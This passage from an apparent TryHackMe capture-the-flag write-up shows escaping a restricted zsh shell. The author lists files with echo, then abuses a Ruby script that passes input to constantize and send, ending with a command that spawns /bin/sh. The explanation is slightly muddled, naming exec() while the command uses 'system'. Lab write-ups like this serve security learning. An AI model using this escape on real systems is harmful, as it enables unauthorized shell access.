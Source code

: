 ```shell
```

As you can see, our `SHELL` variable is `/bin/rzsh`, which is a restricted zsh shell.

**After poking around, I found that we can use `echo`:**
```shell
red-stone-one-carat% echo 'hello'
hello
```

**Armed with above information, we can use `echo *` and `echo .*` to list files:**
```shell
red-stone-one-carat% echo * 
bin user.txt

red-stone-one-carat% echo .*
.cache .hint.txt .zcompdump.red-stone-one-carat.1404 .zshrc

red-stone-one-carat% echo bin/*
bin/rzsh bin/test.rb
```

**The `bin/test.rb` looks interesting. Let's execute that:**
```ruby
red-stone-one-carat% test.rb
#!/usr/bin/ruby

require 'rails'

if ARGV.size == 3
    klass = ARGV[0].constantize
    obj = klass.send(ARGV[1].to_sym, ARGV[2])
else
    puts File.read(__FILE__)
end
```

Let's break it down:

- If the number of arguments are equal to 3:
    - **Set the `test.rb` script to find a declared constant with the name specified in the string**
- If no argument is given, print the source code of `test.rb`

**According to this [blog](https://launchscout.com/blog/getting-creative-with-constantize-in-ruby-on-rails), the `constantize` is insecure:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Red-Stone-One-Carat/images/Pasted%20image%2020230112105502.png)

So, the `constantize` prevents "any" ruby code from being executed, it allows unintended classes to be initiate.

**Now, to abuse that, we can use class `Kernel`, class method `exec()`, and argument `<command>`:**
```ruby
test.rb Kernel 'system' "/bin/sh"
```
